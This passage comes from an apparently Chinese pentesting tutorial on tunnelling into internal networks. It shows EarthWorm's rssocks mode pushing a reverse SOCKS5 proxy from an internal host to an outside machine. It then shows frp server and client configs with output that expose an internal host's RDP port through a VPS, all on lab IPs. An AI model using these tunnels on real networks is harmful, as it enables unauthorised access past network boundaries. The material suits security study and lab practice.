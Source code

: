 在内网主机 C 上，启动 socks5 服务，并反弹到 B 主机的 6666 端口上

    
    
    ew -s rssocks -d 192.168.7.110 -e 6666
    
    
    > .\ew_for_Win.exe -s rssocks -d 192.168.7.110 -e 6666  
    rssocks 192.168.7.110:6666 <--[10000 usec]--> socks server

至此，socks5 代理 VPS 的 1080 端口就会访问到内网资源了。

另外还有个 ew 的升级版工具叫 termite，不过比较遗憾的是 termite 在两年前也已经暂停更新了，这里也就不再大费周章的记录它了。

# 0x11 frp 的使用

## 1、介绍

相较于前一篇文章介绍的 ew 的年代久远，frp 就好的多了，基本上隔几天就会发布新的版本，最新的一版更新还就在几天前。

在实战中，大家较多使用的也是 frp，frp 项目地址：https://github.com/fatedier/frp

至于下载安装直接在项目的 releases 里下载自己对应的系统版本就行。

## 2、使用

官方使用文档：https://gofrp.org/docs/

frp 分成服务端和客户端，分别叫 frps 和 frpc，配置文件分别对应 frps.ini 和 frpc.ini

> 以下环境均为本地环境，VPS IP 为 172.16.214.52，目标主机 IP 为 192.168.7.110

### a、内网端口穿透

场景：内网主机可出网，想从公网访问内网主机的 3389 端口

在 VPS 上开启服务端，这里以 kali 为例，首先修改配置文件 frps.ini

    
    
    [common]bind_port = 4444

然后启动服务端

    
    
    frps -c frps.ini
    
    
    > ./frps -c frps.ini2021/06/09 03:45:03 [I] [root.go:200] frps uses config file: frps.ini2021/06/09 03:45:03 [I] [service.go:192] frps tcp listen on 0.0.0.0:44442021/06/09 03:45:03 [I] [root.go:209] frps started successfully

配置客户端配置文件

    
    
    [common]# 服务端 IPserver_addr = vps_ip# 服务端端口server_port = 4444[rdp]type = tcplocal_ip = 127.0.0.1local_port = 3389# 连接 vps 的端口remote_port = 3389
    
    
    > .\frpc.exe -c frpc.ini2021/06/09 15:50:29 [I] [service.go:304] [72904e8037a7fdf8] login to server success, get run id [72904e8037a7fdf8], server udp port [0]2021/06/09 15:50:29 [I] [proxy_manager.go:144] [72904e8037a7fdf8] proxy added: [rdp]2021/06/09 15:50:29 [I] [control.go:180] [72904e8037a7fdf8] [rdp] start proxy success

